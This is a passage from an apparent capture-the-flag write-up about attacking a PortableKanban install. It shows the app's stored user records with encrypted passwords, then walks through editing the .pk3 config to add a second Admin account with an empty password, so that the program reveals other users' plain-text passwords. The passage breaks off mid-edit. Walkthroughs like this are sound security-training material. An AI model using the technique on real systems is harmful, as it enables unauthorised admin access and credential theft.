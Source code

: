 Skim through the files and we have these users in `PortableKanban.pk3`.

```json
/* PortableKanban.pk3 */
  "Users": [
    {
      "Id": "e8e29158d70d44b1a1ba4949d52790a0",
      "Name": "Administrator",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "k+iUoOvQYG98PuhhRC7/rg==", // Base64
      "Role": "Admin",
      "Inactive": false,
      "TimeStamp": 637409769245503700
    },
    {
      "Id": "0628ae1de5234b81ae65c246dd2b4a21",
      "Name": "lars",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "Ua3LyPFM175GN8D3+tqwLA==",
      "Role": "User",
      "Inactive": false,
      "TimeStamp": 637409769265925600
    }
  ]
```

### Reveal administrator password by re-configurating Kanban PK3 file

Since the passwords are encrypted, we need to find other ways to get in. We can abuse their own `PortableKanban.exe` to decrypt passwords for us since they are stored offline but you've might already known that only privileged users can read the password in plain text. Let's add ourselves in with *Admin* role by copy-paste `Administrator` section and change the name and id.

```json
/* PortableKanban.pk3 */
	"Users": [
    {
      "Id": "e8e29158d70d44b1a1ba4949d52790a0",
      "Name": "Administrator",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "k+iUoOvQYG98PuhhRC7/rg==",
      "Role": "Admin",
      "Inactive": false,
      "TimeStamp": 637409769245503700
    },
    {
      "Id": "0628ae1de5234b81ae65c246dd2b4a21",
      "Name": "lars",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "Ua3LyPFM175GN8D3+tqwLA==",
      "Role": "User",
      "Inactive": false,
      "TimeStamp": 637409769265925600
    },
    {
      "Id": "e8e29158d70d44b1a1ba4949d52790a1", // We also have to change the id
      "Name": "huy",
      "Initials": "",
      "Email": "",
      "EncryptedPassword": "", 					// Empty password
```